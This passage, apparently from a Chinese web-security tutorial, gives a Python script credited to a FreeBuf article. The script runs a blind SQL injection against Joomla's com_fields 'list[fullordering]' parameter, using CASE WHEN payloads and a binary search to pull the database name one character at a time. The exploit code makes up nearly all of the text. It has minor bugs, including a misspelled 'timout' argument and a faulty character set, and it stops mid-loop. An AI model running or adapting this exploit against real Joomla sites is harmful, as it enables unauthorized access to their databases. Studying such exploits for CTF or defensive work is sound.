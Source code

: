 下面是一个示例代码，来源于 [这篇文章](https://www.freebuf.com/articles/web/175049.html)，其实我上面的那个 CTF 题的 EXP 也用的是二分法

```
# -*- coding:UTF-8 -*-
import requests
import sys
# 准备工作
url = 'http://localhost/Joomla/index.php?option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]='
string = '0123456789ABCDEFGHIGHLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
flag = ''
cookies = `{`'9e44025326f96e2d9dc1a2aab2dbe5b1' : 'l1p92lf44gi4s7jdf5q73l0bt5'`}`
response = requests.get('http://localhost/Joomla/index.php?option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=(CASE WHEN (ascii(substr((select database()),1,1)) &gt; 78) THEN 1 ELSE (SELECT 1 FROM DUAL UNION SELECT 2 FROM DUAL) END)',cookies=cookies,timeout=2)
print(response.text)
i = 1
while i &lt;= 7:
    left = 0
    right = len(string) - 1
    mid = int((left + right) / 2)
    print('n')
    print(flag)
    print('Testing... ' + str(left) + ' ' + str(right))
    # 特殊情况
    if (right - left) == 1:
        payload = "(CASE WHEN (ascii(substr((select database()),`{`0`}`,1))&gt;`{`1`}`) THEN 1 ELSE (SELECT 1 FROM DUAL UNION SELECT 2 FROM DUAL) END)".format(i, str(ord(string[left])))
        poc = url + payload
        print(poc)
        response = requests.get(poc,cookies=cookies,timout=2)
        if ('安全令牌无效') in response.text:
            flag = flag + string[right]
            print(flag)
            exit()
        else: 
            flag = flag + string[left]
            print(flag)
            exit()
    # 二分法
    while 1:
        mid = int((left + right) / 2)
        payload = "(CASE WHEN (ascii(substr((select database()),`{`0`}`,1))&gt;`{`1`}`) THEN 1 ELSE (SELECT 1 FROM DUAL UNION SELECT 2 FROM DUAL) END)".format(i, str(ord(string[mid])))
        poc = url + payload
        print(poc)
        response = requests.get(poc,cookies=cookies,timeout=2)
        # 右半部
        if ('安全令牌无效') in response.text:
            left = mid + 1
            print('left:'+str(left))
        # 左半部
        else: 
            right = mid
            print('right:'+str(right))
        if (left == right):
            flag = flag + string[left]
            break
        # 特殊情况
        if (right - left) == 1:
            payload = "(CASE WHEN (ascii(substr((select database()),`{`0`}`,1))&gt;`{`1`}`) THEN 1 ELSE (SELECT 1 FROM DUAL UNION SELECT 2 FROM DUAL) END)".format(i, str(ord(string[left])))
            poc = url + payload
            print(poc)
```